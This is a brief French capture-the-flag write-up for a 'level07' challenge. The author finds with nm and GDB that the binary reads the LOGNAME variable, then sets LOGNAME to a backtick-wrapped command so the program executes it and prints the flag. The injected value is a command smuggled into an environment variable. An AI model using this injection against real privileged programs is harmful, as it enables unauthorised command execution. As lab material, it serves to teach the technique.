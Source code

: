 J'execute ./level07, ca affiche level07
```bash
nm -u level07
```
Je vois la fonction getenv qui en resulte une variable d'environnement utilisé

J'utilise GDB pour voir quel variable d'environnement est utilisé -> LOGNAME
```bash
export LOGNAME='`getflag`'
./level07
```

